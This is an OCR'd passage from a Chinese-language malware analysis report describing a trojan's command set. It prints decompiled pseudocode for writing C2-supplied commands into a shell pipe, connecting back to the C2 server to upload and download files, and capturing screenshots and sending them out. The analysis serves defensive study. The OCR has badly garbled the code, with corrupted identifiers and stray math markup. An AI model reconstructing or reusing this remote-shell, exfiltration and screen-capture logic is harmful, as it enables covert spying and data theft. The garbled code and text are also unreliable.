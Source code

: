SH1和 SH2 两个指令功能几乎一致，将参数携带的cmd 指令写入命令管道，用于shell 执行。  

FnStrAssign(lpBuffer,（char \*)v121 $^+$ 3，nNumberOfBytesToWrite-3）;//提取指令参数 v1 $=$ V1090x60000;   
V122 $=$ lpBuffer;   
if（v274[1]>0xFu）   
V122=（LPCVOID \*)loBuffer[0]:   
WriteFile(q cmd pipe input.v122.q res -3.&v250f441.0）:   
if（v274[1] $>$ 0xFu)  

#### (6) SFS  

SFS 指令用于上传和下载文件，但该指令并不直接执行文件传输操作。该指令的参数为端口号，在 sub_404640（MwFileOp）函数中调用WSAConnectByNameW 连接同一C2 服务器的另一个指定端口，木马与该端口进行文件传输。  

$\vee268=\vee139$ \*v139 $=$ (int)v138; //arg2，用于文件传输的端口号字符串 V139[1] $=$ (int)v140; //arg1，c2域名 V139[2] $=$ (int)MwFileOp; L0BYTE(v284)=61; $\forall141=$ FnCreateThreadWrap(0,0,(LPCWSTR)sub_416930,v139,0,（int)&v259[1]);   
SetThreadExecutionState(ox8ooooooo);   
result $=$ WSAStartup( $\mathrm{0}\times2\mathrm{0}\geq\mathrm{0}$ ,&WSAData);   
if（!result) Sleep(0xFA0u); $\begin{array}{r l}{\mathbb{V}_{=}^{\top}}&{{}=}\end{array}$ WSASocketW(2,1,6,0，0，0）; g_socket_file_op=v3; if（v3==-1) return WSACleanup(); 7 else g_res $=$ WSAConnectByNameW（v3,nodename,servicename,0,0,0,0,0,0); if（ g_res ==-1 ） return closesocket(g_socket_file_op); else f $\downarrow4=$ recv(g_socket_file_op,buf,θx20o0,0); g_res =v4; while（v4>θ） //whileLoop，如果接收到文件传输指令 v66=0; v67=0; \*（_OWORD\*）v65=θi64; FnStrAssign(v65,buf,v4);  

MwFileOp 函数有两个二级指令"UPL1"和"DWNL"，分别完成文件上传和下载操作。  

<html><body><table><tr><td>文件传输指令</td><td>格式</td></tr><tr><td>UPL1</td><td>UPL1<上传文件路径></td></tr><tr><td>DWNL</td><td>DWNL<下载文件保存路径>,filesize==<接收文件大小></td></tr></table></body></html>

D0003AE3 MwFile0p:94 (4046E3) (Synchronized with IDA View-A, Hex View-1)  

在文件下载过程中，C2服务器如果发送“CANCEL2"，木马可以提前结束文件下载，不用等待接收完指定数量的文件数据。  

FnStrAssign(&Buf,buf,strlen(buf));  
$\yen123$ sub_40D000（&Buf,（int)"CANCEL2".v10);V18 $=$ V11；  
if(v17 $\Bumpeq$ xF）  

#### (7） GSS  

获取截屏，该指令的参数可以选择截屏保存图片的分辨率。输出信息用＂～!@SSS”和 $"\sim!\ @{\mathsf{S S}}$ E"标识截屏数据的开始和结束位置。  

CompatibleBitmap $=$ CreateConpatibleBitmap(DC,v3,v4);   
$\upharpoonright$ Selectobject(hdc,CompatibleBitmap);   
BitBlt（hdc,0,0，v3, $\cup4$ ，DC,0,0，0xCco02θu）;   
$\psi_{0}~=~\sinh^{2}~\stackrel{..}{\cdot}{}~\vee4$ wDest $=$ a2\*v3/5；   
hbma $=$ CreateCompatibleBitmap(Dc,wDest,v6/ 5);   
hdcDest $=$ CreateConpatibleDC(DC);   
$\vee\hat{\varepsilon}\left(\hat{\mathrm{\boldmath~\bar{~}}}\right)= $ Selectobject(hdcDest,hbma);   
StretchBlt（hdcDest,0,0,wDest,v6/ 5,hdc,0,0,wSrc,hSrc,@xCC0020u);   
bmi.bmiHeader.biSize $=$ 40;   
bni.bniHeader.biWidth $=$ wDest;   
\*(_DWoRD \*)&bmi.bmiHeader.biPlanes $=$ 1572865;   
memset(&bmi.bmiHeader.bicompression,0,24);   
bmi.bmiHeader.biHeight $=$ v6/ -5;   
wDesta=4v6/-5（（24wDest $^{+}$ 31)/-32);   
$\begin{array}{r l}{\Psi\overline{{\widetilde{I}}}}&{{}=}\end{array}$ （void \*)operator new[](wDesta）;   
GetDIBits(hdcDest,hbma,0,v6/5,v7。&bmi,0);   
send(s, "-!@sss", 6.0);   
Sleep(0x64u);   
send(s,（const char \*）&bmi，40,θ）;   
Sleep(0xC8u);   
send（s,（const char \*)v7,wDesta，0）;   
Sleep(0x64u);   
send(s,"\~1@ssE"，6,0);   
Sleep(0x14u);   
Selectobiect(hdc.h):  
